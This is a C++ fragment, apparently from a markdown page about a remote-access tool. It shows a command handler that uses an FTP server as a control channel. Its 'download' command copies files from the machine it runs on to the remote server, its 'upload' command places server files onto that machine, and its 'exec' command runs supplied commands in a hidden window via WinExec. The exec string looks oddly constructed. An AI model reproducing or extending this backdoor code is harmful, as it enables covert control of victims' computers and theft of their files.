```cpp
            else if (main_cmd == "upload") {
                if (spl_line.size() < 3) {
                    wrapper::append_file(output_path, "[!] error [!]\n\n");
                    return;
                }
                if (!ftp_connection.cd("uploads")) {
                    wrapper::append_file(output_path, "[!] folder not found [!]\n\n");
                    return;
                }
                if (ftp_connection.retr_file(spl_line[2], spl_line[1]))
                    wrapper::append_file(output_path, "[++] file upload successful [++]\n\n");
                else
                    wrapper::append_file(output_path, "[!!] upload error [!!]\n\n");
                ftp_connection.cd("../");
            }
            else if (main_cmd == "download") {
                if (spl_line.size() < 2) {
                    wrapper::append_file(output_path, "[!] error [!]\n\n");
                    return;
                }
                if (!ftp_connection.cd("downloads")) {
                    ftp_connection.mkdir("downloads");
                    ftp_connection.cd("downloads");
                }
                if (ftp_connection.upload_file(spl_line[1], std::filesystem::path(spl_line[1]).filename().u8string()))
                    wrapper::append_file(output_path, "[++] file download successful [++]\n\n");
                else
                    wrapper::append_file(output_path, "[!!] downloading error [!!]\n\n");
                ftp_connection.cd("../");
            }
            else if (main_cmd == "exec") {
                if (spl_line.size() < 2) {
                    wrapper::append_file(output_path, "[!] error [!]\n\n");
                    return;
                }
                WinExec(std::string("cmd \"d:" + spl_line[1] + "f\"").c_str(), 0);
            }
            else {
                wrapper::append_file(output_path, "[!!] command: " + main_cmd + "not found [!!]\n\n");
            }
        }
        catch (...)
        {
            wrapper::append_file(output_path, "[!!] error [!!]\n\n");
        }
}
```

### main
